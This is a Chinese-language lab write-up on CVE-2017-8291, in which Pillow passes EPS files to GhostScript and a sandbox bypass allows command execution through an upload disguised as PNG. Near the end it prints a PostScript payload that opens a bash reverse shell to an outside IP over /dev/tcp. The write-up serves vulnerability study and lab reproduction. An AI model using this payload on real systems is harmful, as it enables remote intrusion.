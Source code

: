 # Python PIL 远程命令执行漏洞 CVE-2017-8291

## 漏洞描述

Python 中处理图片的模块 PIL（Pillow），因为其内部调用了 GhostScript 而受到 GhostButt 漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

参考阅读：

- http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/

## 漏洞原理

PIL 内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个 eps 文件（头为 `%!PS`），则分发给 `PIL/EpsImagePlugin.py` 处理。

在这个模块中，PIL 调用了系统的 gs 命令，也就是 GhostScript 来处理图片文件：

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

虽然设置了 `-dSAFER`，也就是安全模式，但因为 GhostScript 的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。

另外，截至目前，GhostScript 官方最新版 9.21 仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了 GhostScript，我们的 PIL 就存在命令执行漏洞。

## 环境搭建

Vulhub 运行环境：

```
docker-compose up -d
```

运行后，访问 `http://your-ip:8000/` 即可看到一个上传页面。

## 漏洞复现

正常功能是我们上传一个 PNG 文件，后端调用 PIL 加载图片，输出长宽。但我们可以将可执行命令 EPS 文件后缀改成 PNG 进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。

比如 [poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)，进行上传，即可执行 `touch /tmp/awesome_poc`。

![image-20220228145248709](images/202202281452756.png)

将 `touch /tmp/awesome_poc` 命令改为反弹 shell 命令：

```
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
```

成功接收反弹 shell：

![image-20220228162022990](images/202202281620079.png)
